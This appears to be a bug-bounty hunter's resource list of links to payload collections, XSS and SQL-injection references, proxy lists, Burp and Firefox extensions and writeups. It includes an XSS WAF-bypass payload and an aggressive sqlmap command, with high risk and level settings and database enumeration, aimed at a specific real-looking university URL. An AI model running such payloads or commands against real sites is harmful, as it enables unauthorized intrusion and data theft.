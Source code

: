 [www.cspbypasser.com](http://www.cspbypasser.com/)

Passive Url's: https://sawravchy.github.io/archivefinder/

Firefox Extensions:

https://github.com/kevin-mizu/domloggerpp?tab=readme-ov-file

https://chromewebstore.google.com/detail/sessionbox-multi-login-to/megbklhjamjbcafknkgmokldgolkdfig?hl=en

Hackbar: https://addons.mozilla.org/en-US/firefox/addon/maxs-hackbar/

Payloads:

https://github.com/coffinxp/lostools/blob/main/payloads/payloads/xor.txt https://tib3rius.com/sqli

XSS: WAF <details/open/id="&quote;"ontoggle=[JS]>

<details/open/id="&quote;"ontoggle=[JS]>

Details
https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

Practice: https://www.bugbountyhunter.com/

Nuclei Teamplates: https://nuclei-templates.netlify.app/#q=pdteam

Proxy Chains Socks: https://github.com/TheSpeedX/PROXY-List

Writeups: https://www.bugbountyhunting.com/

Encoder/Decoder: https://dencode.com/

Broken Link Hijacking: https://github.com/H4cker-Nafeed/Nafeed-Broken-Link

Burp Extensions: https://portswigger.net/bappstore/b4915681326648b1a12e4059d71bc909

Writeups: https://github.com/reddelexc/hackerone-reports/tree/master/tops_by_bug_type

SQL Map:sqlmap -u 'https://cutm.ac.in/payu/skill/index.php?id=34' --batch --dbs --threads=5 --random-agent --risk=3 --level=5 --tamper=space2comment -v 3 --dbms MySQL

Wayback Url: [https://web.archive.org](https://web.archive.org/)

Cyberchef : https://gchq.github.io/CyberChef/ reference : [https://pentestbook.six2dez.com](https://pentestbook.six2dez.com/) jwt : [Jwt.io](http://jwt.io/)

Notion Notes: [https://ember-sunday-c9a.notion.site/BSCP-1017bd73434580d6b98fe22fab9560c0?pvs=4](https://www.notion.so/1017bd73434580d6b98fe22fab9560c0?pvs=21)
